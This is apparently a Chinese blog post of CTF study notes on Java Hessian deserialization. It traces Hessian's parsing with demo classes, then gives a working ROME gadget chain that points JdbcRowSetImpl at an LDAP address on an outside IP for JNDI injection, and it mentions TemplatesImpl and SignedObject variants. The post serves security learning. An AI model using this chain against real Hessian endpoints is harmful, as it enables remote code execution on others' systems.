










# Hessian反序列化

## 前言

今年虎符CTF的Java出了hessian的反序列化，但是之前自己还没有接触过，所以来学习一下Hessian的反序列化。

## 前置知识

Java的序列号和反序列化可以分为两类，一类是基于Bean属性的访问机制：

- SnakeYAML
- jYAML
- YamlBeans
- Apache Flex BlazeDS
- Red5 IO AMF
- Jackson
- Castor
- Java XMLDecoder
- ...

看到这些东西想到的反序列化是什么？是`getter`和`setter`。

> 它们最基本的区别是如何在对象上设置属性值，它们有共同点，也有自己独有的不同处理方式。有的通过反射自动调用`getter(xxx)`和`setter(xxx)`访问对象属性，有的还需要调用默认Constructor，有的处理器（指的上面列出来的那些）在反序列化对象时，如果类对象的某些方法还满足自己设定的某些要求，也会被自动调用。还有XMLDecoder这种能调用对象任意方法的处理器。有的处理器在支持多态特性时，例如某个对象的某个属性是Object、Interface、abstruct等类型，为了在反序列化时能完整恢复，需要写入具体的类型信息，这时候可以指定更多的类，在反序列化时也会自动调用具体类对象的某些方法来设置这些对象的属性值。这种机制的攻击面比基于Field机制的攻击面大，因为它们自动调用的方法以及在支持多态特性时自动调用方法比基于Field机制要多。

还有基于Field机制：

> 基于Field机制是通过特殊的native（native方法不是java代码实现的，所以不会像Bean机制那样调用getter、setter等更多的java方法）方法或反射（最后也是使用了native方式）直接对Field进行赋值操作的机制，不是通过getter、setter方式对属性赋值（下面某些处理器如果进行了特殊指定或配置也可支持Bean机制方式）。在ysoserial中的payload是基于原生Java Serialization，marshalsec支持多种，包括上面列出的和下面列出的。

- Java Serialization
- Kryo
- Hessian
- json-io
- XStream
- ...


## Hessian简介

Hessian是二进制的web service协议，官方对Java、Flash/Flex、Python、C++、.NET C#等多种语言都进行了实现。Hessian和Axis、XFire都能实现web service方式的远程方法调用，区别是Hessian是二进制协议，Axis、XFire则是SOAP协议，所以从性能上说Hessian远优于后两者，并且Hessian的JAVA使用方法非常简单。它使用Java语言接口定义了远程对象，集合了序列化/反序列化和RMI功能。本文主要讲解Hessian的序列化/反序列化。

## 反序列化分析

尝试反序列化

```java
package com.summer.entity;

public class People {
    int id;
    String name;

    public int getId() {
        System.out.println("Student getId call");
        return id;
    }

    public void setId(int id) {
        System.out.println("Student setId call");
        this.id = id;
    }

    public String getName() {
        System.out.println("Student getName call");
        return name;
    }

    public void setName(String name) {
        System.out.println("Student setName call");
        this.name = name;
    }
}
```

```java
package com.summer.entity;

import java.io.ObjectInputStream;
import java.io.Serializable;
import java.util.List;
import java.util.Map;

public class Student extends People implements Serializable {
    private static final long serialVersionUID = 1L;

    private static Student student = new Student(111, "xxx", "ggg");
    private transient String gender;
    private Map<String, Class<Object>> innerMap;
    private List<Student> friends;

    public void setFriends(List<Student> friends) {
        System.out.println("Student setFriends call");
        this.friends = friends;
    }

    public void getFriends(List<Student> friends) {
        System.out.println("Student getFriends call");
        this.friends = friends;
    }


    public Map getInnerMap() {
        System.out.println("Student getInnerMap call");
        return innerMap;
    }

    public void setInnerMap(Map innerMap) {
        System.out.println("Student setInnerMap call");
        this.innerMap = innerMap;
    }

    public String getGender() {
        System.out.println("Student getGender call");
        return gender;
    }

    public void setGender(String gender) {
        System.out.println("Student setGender call");
        this.gender = gender;
    }

    public Student() {
        System.out.println("Student default constructor call");
    }

    public Student(int id, String name, String gender) {
        System.out.println("Student custom constructor call");
        this.id = id;
        this.name = name;
        this.gender = gender;
    }

    private void readObject(ObjectInputStream ObjectInputStream) {
        System.out.println("Student readObject call");
    }

    private Object readResolve() {
        System.out.println("Student readResolve call");

        return student;
    }

    @Override
    public int hashCode() {
        System.out.println("Student hashCode call");
        return super.hashCode();
    }

    @Override
    protected void finalize() throws Throwable {
        System.out.println("Student finalize call");

        super.finalize();
    }

    @Override
    public String toString() {
        return "Student{" +
                "id=" + id +
                ", name='" + name + '\'' +
                ", gender='" + gender + '\'' +
                ", innerMap=" + innerMap +
                ", friends=" + friends +
                '}';
    }
}
```

```java
package com.summer.hessian;

import com.summer.entity.Student;
import com.summer.entity.User;
import com.summer.util.HessianUtil;
import com.summer.util.SerializeUtil;

import java.io.ObjectInputStream;
import java.sql.SQLData;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import java.util.Map;

public class Hessian {
    public static void main(String[] args) throws Exception{
        int id = 111;
        String name = "hessian";
        String gender = "boy";

        Map innerMap = new HashMap<String, Class<Object>>();
        innerMap.put("1", ObjectInputStream.class);
        innerMap.put("2", SQLData.class);

        Student friend = new Student(222, "hessian1", "boy");
        List friends = new ArrayList<Student>();
        friends.add(friend);

        Student stu = new Student();
        stu.setId(id);
        stu.setName(name);
        stu.setGender(gender);
        stu.setInnerMap(innerMap);
        stu.setFriends(friends);

        System.out.println("[+] start hessian serialize");
        byte[] serialize = HessianUtil.serialize(stu);
        System.out.println("[+] start hessian deserialize");
        HessianUtil.deserialize(serialize);
        //System.out.println(SerializeUtil.getFieldValue(o,"name"));

    }
}

```

```java
package com.summer.util;

import com.caucho.hessian.io.*;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;

public class HessianUtil {

    // 序列化
    public static byte[] serialize(Object obj) {
        ByteArrayOutputStream os = new ByteArrayOutputStream();
        AbstractHessianOutput out = new Hessian2Output(os);

        out.setSerializerFactory(new SerializerFactory());
        try {
            out.writeObject(obj);
        } catch (IOException e) {
            throw new RuntimeException(e);
        } finally {
            try {
                out.close();
                os.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        return os.toByteArray();
    }

    // 反序列化
    public static <T> T deserialize(byte[] bytes) {
        ByteArrayInputStream is = new ByteArrayInputStream(bytes);
        AbstractHessianInput in = new Hessian2Input(is);

        in.setSerializerFactory(new SerializerFactory());
        T value;
        try {
            value = (T) in.readObject();
        } catch (IOException e) {
            throw new RuntimeException(e);
        } finally {
            try {
                in.close();
                is.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        return value;
    }

}

```

然后打断点看反序列化就行了，整个流程我就不全分析了，主要就是依次根据tag进行字节的读取来反序列化。

对于这个例子，首先读到tag是C：



`readObjectDefinition`里面是对这个类的基本处理，获取类名和属性数量，然后依次读取字节流来得到`Field`并根据`FieldName`来选择`FieldDeserialize`：



之后会根据这些`FieldDeserialize`来反序列化相应的属性。


之后进入`readObject()`方法，先产生类对象：



这也就是`Field`机制的一个特点，他更多的是调用native方法：



并不是反射调用无参构造器这样的来或的对象实例。

然后就是对类属性进行反序列化了：



依次遍历`fields`获取`Deserialize`来反序列化。

对于`int`，直接从字节流中读取然后调用native：



String同理：



接着要反序列化的属性是个`Map`，这是Hessian中很有意思的一个点：

此时的tag是`H`，对应的是对Map进行反序列化。此时的`Deserializer`是`MapDeserializer`，调用的是`readMap`。



然后就是很有意思的处理了：

```java
  public Object readMap(AbstractHessianInput in)
    throws IOException
  {
    Map map;
    
    if (_type == null)
      map = new HashMap();
    else if (_type.equals(Map.class))
      map = new HashMap();
    else if (_type.equals(SortedMap.class))
      map = new TreeMap();
    else {
      try {
        map = (Map) _ctor.newInstance();
      } catch (Exception e) {
        throw new IOExceptionWrapper(e);
      }
    }

    in.addRef(map);

    while (! in.isEnd()) {
      map.put(in.readObject(), in.readObject());
    }

    in.readEnd();

    return map;
  }
```

先是`new HashMap()`，然后调用`map.put(in.readObject(), in.readObject());`。

这个调用了`put`，至于接下来的gadget肯定不用说了，触发hashCode。Hessian的rome链也就是在这里触发的。

当时也是先把key和value进行`readObject`，一层一层往下递归反序列化了。

然后是对`List`的处理基本差不多，对于`Object`处理也是递归进行了。

属性都处理完毕之后，就是调用`Object resolve = resolve(in, obj);`



处理流程中我唯一见到的调用反射的，。。。。调用`readResolve`方法。


## rome反序列化链

就是之前是调用`TemplatesImpl`的那个`getter`方法，这次调用`JdbcRowSetImpl`的那个`getter`来实现JNDI注入了。

```java
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        //todo 此处填写ldap url
        rs.setDataSourceName("ldap://121.5.169.223:1389/o0bxok");
        //rs.setMatchColumn("foo");
        //Field listeners = Class.forName("javax.sql.rowset.BaseRowSet").getDeclaredField("listeners");
        //listeners.setAccessible(true);
        //listeners.set(rs,null);
        //SerializeUtil.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);
        //SerializeUtil.setFieldValue(rs,"listeners",null);
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, rs);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        ObjectBean objectBean = new ObjectBean(String.class,"f");
        HashMap evilMap = new HashMap();
        evilMap.put(objectBean,1);
        evilMap.put(objectBean,1);
        SerializeUtil.setFieldValue(objectBean,"_equalsBean",equalsBean);
        //byte[] serialize = SerializeUtil.serialize(evilMap);
        //SerializeUtil.unserialize(serialize);
        byte[] serialize = HessianUtil.serialize(evilMap);
        HessianUtil.deserialize(serialize);
```

之所以不能用`TemplatesImpl`的这个链子，就是因为`_tfactory`属性是`transient`的，Hessian的反序列化不像正常的反序列化那样。

想想正常的反序列化的时候，这行构造是可有可无的：

```java
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","f");
        //SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
```

是因为`TemplatesImpl`的`readObject`会处理`_tfactory`：



但是Hessian有自己的反序列化处理方式，导致了`_tfactory`为null，最后不能实现动态加载字节码。2022年HFCTF就考察了这个，不过可以利用`SignedObject`类的`getObject`二次反序列化来实现动态加载字节码。


